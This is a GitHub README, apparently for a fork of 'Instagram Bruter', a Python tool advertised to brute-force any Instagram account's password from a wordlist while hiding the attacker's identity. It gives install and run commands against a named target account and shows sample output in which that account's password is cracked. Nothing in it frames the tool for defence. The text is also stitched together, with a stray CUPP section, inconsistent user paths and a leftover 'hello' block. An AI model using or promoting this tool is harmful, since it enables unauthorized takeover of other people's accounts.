 # INSTAGRAM BRUTER

[![Version](https://img.shields.io/badge/version-v2.1.1-blue.svg)]()
[![Python](https://img.shields.io/badge/python-v3-blue.svg)]()
[![instagram](https://www.instagram.com/yourboy_yogesh/)]()

This program will brute force any Instagram account you send it its way. Just give it a target, a password list and a mode then press enter and forget about it. No need to worry about anonymity when using this program, its highest priority is your anonymity, it only attacks when your identity is hidden.

# HOW TO USE CUPP.PY
```
python3 cupp.py -i
```


# NOTICE


This project is no longer maintained; use version 3.0.1 at [here](https://www.youtube.com/watch?v=4JkQiKbCfsM)

### Requirements

-   Python _v3.x.x_
-   ~~Kali Linux 2.0~~
-   ~~TOR~~

### Install Dependencies

```
pip3 install -r requirements.txt
```

### Help

```
C:\Users\Mohamed\Desktop\Instagram>python3 instagram.py -h
usage: instagram.py [-h] [-m MODE] username wordlist

positional arguments:
  username              email or username
  wordlist              password list

optional arguments:
  -h, --help            show this help message and exit
  -m MODE, --mode MODE  modes: 0 => 32 bots; 1 => 16 bots; 2 => 8 bots; 3 => 4 bots
```

### Usage

```
python3 instagram.py <username> <wordlist> -m <mode>
```

### Bots(Threads)

-   4 bots: 64 passwords at a time
-   8 bots: 128 passwords at a time
-   16 bots: 256 passwords at a time
-   32 bots: 512 passwords at a time

### Modes

-   0: 32 bots
-   1: 16 bots
-   2: 8 bots
-   3: 4 bots

### Chill mode

This mode uses only 4 bots, or 64 passwords at a time.

```
C:\Users\kotayogesh\crackinsta>python3 instagram.py Sami09.1 pass.lst -m 3
```

### Moderate mode 1

This mode uses 8 bots, or 128 passwords at a time.

```
C:\Users\kotayogesh\crcakinsta>python3 instagram.py Sami09.1 pass.lst -m 2
```

### Moderate mode 2

This mode uses 16 bots, or 256 passwords at a time.

```
C:\Users\kotayogesh\instacrack>python3 instagram.py Sami09.1 pass.lst -m 1
```

### Savage mode

This mode uses 32 bots, or 512 passwords at a time.

```
C:\Users\Mohamed\Desktop\Instagram>python3 instagram.py Sami09.1 pass.lst -m 0
```

### If you don't specify a mode, then mode is set to 2

### Run

```
[-] Wordlist: pass.lst
[-] Username: Sami09.1
[-] Password: 272
[-] Complete: 45.51%
[-] Attempts: 228
[-] Browsers: 273
[-] Exists: True
```

### Stop

```
[-] Wordlist: pass.lst
[-] Username: Sami09.1
[-] Password: Sami123
[-] Complete: 62.67%
[-] Attempts: 314
[-] Browsers: 185
[-] Exists: True

[!] Password Found
[+] Username: Sami09.1
[+] Password: Sami123
```
``` 
hello
```
